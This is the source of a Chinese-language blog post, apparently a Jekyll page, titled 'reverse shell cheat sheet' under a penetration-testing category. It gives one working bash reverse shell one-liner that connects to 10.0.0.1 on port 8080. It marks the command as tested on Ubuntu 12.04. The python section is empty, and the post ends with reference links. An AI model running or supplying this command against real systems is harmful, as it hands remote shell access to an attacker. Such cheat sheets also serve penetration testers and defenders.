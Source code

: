 ```yaml
---
layout: post
title: "reverse shell cheat sheet"
description: ""
category: 渗透测试
tags: [反弹shell]
---
```

{% include JB/setup %}


# BASH #

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

ubuntu 12.04测试OK

# python #



## 参考资料 ##

[翻译自](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[反弹shell的十种姿势（偶然看到一些整理下）](http://zone.wooyun.org/content/5064)

[python反弹shell](http://zone.wooyun.org/content/6041)
